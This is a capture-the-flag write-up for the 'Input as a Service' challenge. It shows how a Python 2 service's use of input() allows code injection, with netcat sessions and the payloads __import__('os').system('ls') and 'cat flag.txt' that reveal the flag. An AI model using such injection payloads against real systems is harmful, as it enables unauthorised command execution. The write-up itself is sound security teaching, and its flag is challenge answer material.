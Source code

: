 # Input as a Service
When connecting to the instance we a Python prompt.

Connected using `netcat`:
```bash=
$ nc 46.101.23.157 31020                                                                                                       4 ⚙
2.7.18 (default, Apr 20 2020, 19:51:05) 
[GCC 9.2.0]
Do you sound like an alien?
>>> 

```
From this we can see its running `Python2.7`.

If we input some bad values, we can see that it's using `input()` to get user input:
```bash=
$ nc 46.101.23.157 31020                                                                                                 148 ⨯ 4 ⚙
2.7.18 (default, Apr 20 2020, 19:51:05) 
[GCC 9.2.0]
Do you sound like an alien?
>>> 
1+2
print(input)

 3
 Traceback (most recent call last):
  File "/app/input_as_a_service.py", line 16, in <module>
    main()
  File "/app/input_as_a_service.py", line 12, in main
    text = input(' ')
  File "<string>", line 1
    print(input)
        ^
SyntaxError: invalid syntax
                                                                             
```

There is a vulnerability with `Python2` and `input()` and because of which, its recommended to use `raw_input()` instead.

[Here is a link to a Medium post that details the exploit I'm using.](https://medium.com/@abdelazimmohmmed/python-input-vulnerability-30b0bfea22c9)

But in short - input allows function calls. One function you can use is `__import__` which you can use to make execute commands on the system.

Specifically, I will use these two functions/commands:
* `__import__("os").system("ls")`
* `__import__("os").system("cat flag.txt")`

```bash=
$ nc 46.101.23.157 31020 
2.7.18 (default, Apr 20 2020, 19:51:05) 
[GCC 9.2.0]
Do you sound like an alien?
>>> 
__import__("os").system("ls")
flag.txt
input_as_a_service.py
__import__("os").system("cat flag.txt")
CHTB{4li3n5_us3_pyth0n2.X?!}

 0
 0
```